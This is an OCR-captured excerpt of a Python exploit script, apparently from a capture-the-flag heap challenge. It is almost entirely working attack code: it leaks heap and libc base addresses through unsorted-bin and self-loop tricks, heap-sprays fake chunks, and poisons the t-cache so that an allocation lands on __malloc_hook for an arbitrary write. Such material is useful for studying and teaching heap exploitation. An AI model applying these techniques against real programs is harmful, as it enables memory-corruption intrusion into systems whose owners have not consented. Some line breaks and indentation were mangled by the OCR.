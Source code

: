 ```python  
   # We can now leak the heap addr from the self-loop  
   heap_base = u64(get(5).ljust(8, b'\x00')) - 0x2d0  
log.info(f"Heap base: {hex(heap_base)}")

   # -------------------------------- #  
   # --         Libc leak          -- #  
   # -------------------------------- #

   # Create a fake chunk (must be aligned to 0x10)  
   # It must be big enough to be inserted into a unsorted bin >= 0x800  
   fake_chunk = p64(0x0) + p64(0x811) + p64(0) + p64(0)  
   set(1, fake_chunk[:30])

   # The next chunk must have the prev in use bit set or free tries to
coalesce the chunks  
   # Too lazy to calculate the address, so heap spray it is ;)  
   offset = 1  
   while (offset * 0x30 <= 0x810):  
       offset += 1  
       set(0x1700 + offset, (p64(0x51) + p64(0x51) + p64(0x51) + p64(51))[:30])  
   # Drop a second pointer to the unsorted chunk, so we can read it later  
   offset += 1  
   set(0x1700 + offset, p64(heap_base + 0x310) + b'e' * 0x10)

   # free the unsorted chunk  
   set(get_idx(0x300 + offset * 0x30), p64(heap_base + 0x310) + b'f' * 0x10)

   # Leak a libc base address from the unsorted chunks next pointer  
   libc.address = u64(get(get_idx(0x300 + (offset - 1) * 0x30)).ljust(8,
b'\x00')) - 0x1ebbe0  
log.info(f"Libc base: {hex(libc.address)}")

   # -------------------------------- #  
   # --      Arbitrary write       -- #  
   # -------------------------------- #

   # fill the t-cache with size 0x290 chunks  
   # We do this to get the t-cache (size 0x290) into the unsorted bin, when
we'll free it later  
   offset = 0x310  
   for i in range(7):  
       # create a fake chunk  
       set(0x1780 + i, p64(0) + p64(0x291) + b'free')  
       # free our handcrafted chunk  
       set(get_idx(offset + 0x30), p64(heap_base + offset + 0x10))  
       offset += 0x60

   # Create a fake t-cache chunk  
   # Index 5 is the self-loop from the heap leak, therefore the chunk gets
freed and the next pointer overwritten to our just allocated payload  
   # We control the t-cache chunk's next pointer and set it to __malloc_hook  
   # The t-cache then looks like this:  
   #  
   # size 0x30 [count=1]: Chunk(heap_base + 0x2d0) -> Chunk(heap_base + 0xbd0
+ 7 * 0x60) -> Chunk(libc.sym['__malloc_hook'])  
   # size 0x290 [count=7]: <not important, just notice that it's full
(count=7)>  
   #  
   # If we call malloc 3 times, we get returned a pointer to '__malloc_hook'  
   # However we cannot call malloc() 3-times, because the t-cache counts the
number of elements in the bin and that count is 1 currently  
   # So we'll overwrite that value in the next step  
   set(5, p64(libc.sym['__malloc_hook']) + p64(heap_base + 0x10))  
```